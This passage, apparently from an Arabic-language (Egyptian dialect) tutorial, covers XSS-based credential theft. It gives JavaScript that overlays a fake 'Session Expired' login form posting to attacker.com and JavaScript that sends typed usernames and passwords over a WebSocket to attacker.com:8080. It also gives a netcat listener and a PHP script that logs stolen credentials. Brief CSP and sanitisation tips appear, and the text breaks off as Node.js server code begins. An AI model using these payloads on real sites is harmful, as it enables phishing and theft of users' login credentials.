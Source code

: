 #### 3. **عرض صفحة لوجن وهمية كاملة (Overlay)**
   - **إزاي بتحصل؟**
     - السكربت بيغطي الصفحة كلها بطبقة (overlay) فيها فورم لوجن وهمي، عشان يخدع الضحية إنه لازم يسجل دخول تاني.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       document.body.innerHTML = '<div style="position: fixed; top: 0; left: 0; width: 100%; height: 100%; background: white;">' +
                                 '<form action="http://attacker.com/steal" method="POST" style="margin: 100px auto; width: 300px;">' +
                                 '<h2>Session Expired - Please Login</h2>' +
                                 '<input type="text" name="username" placeholder="Username" required>' +
                                 '<input type="password" name="password" placeholder="Password" required>' +
                                 '<input type="submit" value="Login">' +
                                 '</form></div>';
       ```
       - `innerHTML`: بيستبدل محتوى الصفحة كلها بفورم وهمي.
       - `style`: بيخلي الفورم يظهر زي صفحة حقيقية.
     - **إعداد سيرفر المهاجم**:
       - netcat:
         ```bash
         nc -lvp 80
         ```
       - أو PHP:
         ```php
         <?php
         file_put_contents("stolen_credentials.txt", "User: " . $_POST['username'] . ", Pass: " . $_POST['password'] . "\n", FILE_APPEND);
         header("Location: http://vulnerable.com");
         ?>
         ```
   - **إزاي بيحط السكربت؟**
     - Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSP عشان تمنع تغيير محتوى الصفحة.
     - نظف المدخلات عشان تمنع السكربتات.

#### 4. **إرسال البيانات عبر WebSocket**
   - **إزاي بتحصل؟**
     - السكربت بيعمل فورم وهمي وبيبعت البيانات اللي المستخدم بيكتبها عبر WebSocket لسيرفر المهاجم.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       var fakeForm = document.createElement("form");
       fakeForm.innerHTML = '<input type="text" id="username" placeholder="Username">' +
                            '<input type="password" id="password" placeholder="Password">' +
                            '<input type="submit" value="Login">';
       fakeForm.onsubmit = function() {
           var ws = new WebSocket("ws://attacker.com:8080");
           ws.onopen = function() {
               ws.send("User: " + document.getElementById("username").value + ", Pass: " + document.getElementById("password").value);
           };
           return false; // منع إرسال الفورم عادي
       };
       document.body.appendChild(fakeForm);
       ```
       - `WebSocket`: بيعمل اتصال مستمر لإرسال البيانات.
       - `onsubmit`: بيشتغل لما المستخدم يضغط على زرار الإرسال.
     - **إعداد سيرفر WebSocket**:
       - استخدام **Node.js** مع مكتبة `ws`:
         ```javascript